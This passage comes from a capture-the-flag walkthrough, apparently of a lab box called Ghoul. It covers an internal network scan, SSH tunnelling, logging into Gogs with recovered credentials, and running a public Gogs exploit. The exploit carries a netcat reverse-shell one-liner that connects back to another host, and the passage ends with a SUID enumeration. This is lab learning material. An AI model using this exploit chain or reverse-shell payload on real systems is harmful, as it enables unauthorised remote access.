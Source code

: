Nmap scan report for cuff_web_1.cuff_default (172.18.0.2)
Host is up (0.00028s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  unknown - HTTP

Nmap scan report for kaneki-pc (172.18.0.200)
Host is up (0.00030s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
</pre>

As it is possible to observer, there is a new host ,172.18.0.2, with ssh and http open on port 3000. In order to check what  is present on that server, I had to tunnel again over ssh, using this time the existing tunnel already present.

<pre>ssh -L 9100:172.18.0.2:3000 -i id_rsa  kaneki_pub@localhost -p 9000 </pre>

And we can see a login screen of Gogs.

![]({{ site.url }}{{ site.baseurl }}/assets/images/Ghoul/web_8.png)

After enormous time spent bruteforcing the credentials I just tried to use all users and passwords already found on the box and I finally found the right combination.

**AogiriTest:test@aogiri123**

![]({{ site.url }}{{ site.baseurl }}/assets/images/Ghoul/gogs_9.png)

From a previous note we know there is a vulnerability on gogs so google is our best friend here..
And I found this coll github repo with Poc : https://github.com/TheZ3ro/gogsownz.
So mainly we are able to obtain a RCE on gogs. Let's try to obtain a reverse shell!

After having uploaded netcat through scp :

<pre> scp -P9000 -i id_rsa ./ncat kaneki_pub@127.0.0.1:/tmp</pre>

and having started a local listener we run the following command:

<pre>python3 gogsownz.py http://127.0.0.1:9100/ -C 'AogiriTest:test@aogiri123' --rce 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.18.0.200 8000 >/tmp/f'  --cleanup</pre>

And I am git on 172.18.0.2!

![]({{ site.url }}{{ site.baseurl }}/assets/images/Ghoul/root_9.png)

Enumerating the system I noticed that there is only one user except root, which git, which seems mandatory for Gogs. This seems pointless so go on with enumeration!
Let's try with classical Linux enumeration files using  https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
Running enumeration for SUID binaries we see something interesting:

<pre>/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chage
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/expiry
<b>/usr/sbin/gosu</b>
/bin/su</pre>
